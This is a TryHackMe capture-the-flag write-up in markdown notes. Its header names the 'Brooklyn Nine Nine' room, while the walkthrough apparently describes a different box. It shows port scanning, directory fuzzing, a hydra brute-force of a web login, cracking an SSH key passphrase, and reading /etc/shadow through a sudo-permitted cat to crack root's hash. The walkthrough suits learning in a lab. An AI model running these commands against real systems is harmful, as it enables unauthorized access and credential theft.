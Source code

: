 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Brooklyn Nine Nine
# DESCRIPTION       . This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/brooklynninenin
```

```bash
sudo nmap -sSVC -T5 10.10.176.165 -p- -oN brute
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b0ebf14fa54b35c4415edb25da0ac8f (RSA)
|   256 d03a8155135e870ce8521ecf44e03a54 (ECDSA)
|_  256 dace79e045eb1725ef62ac98f0cfbb04 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

- I've decided to fuzz the webserver since there wasn't anything interesting going on and I did not have credentials for ssh.

```
ffuf -u http://10.10.176.165/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
```

- on this page, we find a simple login form along with a hint in the source code

```
<!-- Hey john, if you do not remember, the username is admin -->
```

- I ran `hydra` against the login form to find the password.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.176.165 http-post-form "/admin/:user=admin&pass=^PASS^:F=invalid" -I
```

- Here we find the `RSA private key` for user `john` and one of the flags.

- The key is protected by a passphrase which we can crack using `john`. 

```bash
ssh2john rsa > rsa_crack
john rsa_crack

# where rsa is the file containing the private RSA key.
```

- The second flag is located in `/home/john/user.txt`

```
john@bruteit:~$ sudo -l

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

- That's an easy privilege escalation vector.

- To find root's password, we can use `sudo cat /etc/shadow` and get the `root` hash. 

- Save it to a file and run john against it. 

```
/opt/john/run/john rootpasswd 

f[redacted]l         (root)     
```

- The last flag is located in `/root/root.txt`.

- Of course, you can directly use `sudo cat /root/root.txt` but the challenge asks for root's password.
